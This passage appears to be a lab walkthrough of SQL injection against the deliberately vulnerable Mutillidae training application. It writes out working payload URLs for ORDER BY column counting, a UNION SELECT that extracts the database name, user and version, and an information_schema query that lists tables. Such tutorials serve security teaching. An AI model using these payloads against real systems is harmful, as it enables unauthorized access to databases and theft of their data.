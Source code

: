 Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/durga46/sqlinjection/assets/75235704/965895ab-f321-4969-9b8a-ab0bd4cf00b6)


After adding the order by 6 into the existing url , the following error statement will be obtained: Screenshot 2023-06-10 224839
![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/durga46/sqlinjection/assets/75235704/feb4bca9-8cf3-4fe7-a215-5e221fc94deb)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. Screenshot 2023-06-10 224928
![244885848-86073e2f-937b-47a4-9b9d-c0c2863b2a7c](https://github.com/durga46/sqlinjection/assets/75235704/f63a43a9-9b1d-4219-bff9-41a4bd2341a5)

As it is having 5 columns the query worked fine and it provides the correct result
![244885850-7a660480-5cb6-4d86-acd1-08f7a4d5e2fa](https://github.com/durga46/sqlinjection/assets/75235704/5f44a047-43a1-4e2c-b6cb-11e26ede39ad)



Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![244885874-1c7ac260-3410-4f75-8091-2cda6b7f20c0](https://github.com/durga46/sqlinjection/assets/75235704/b38a11ba-aa43-4b28-9969-0cc309faeb41)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 
![244885894-12ebac90-8efb-4558-a442-541029220fa3](https://github.com/durga46/sqlinjection/assets/75235704/6aa129aa-85b1-4e69-8650-e802752f3671)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![244885896-78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8](https://github.com/durga46/sqlinjection/assets/75235704/40ef79b3-0b45-40df-9e4e-3ada473a6f8c)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![244885899-68ccd33b-a98d-4ff6-8c19-57e63c2724d0](https://github.com/durga46/sqlinjection/assets/75235704/88000a95-5643-407b-9220-3718350a4658)
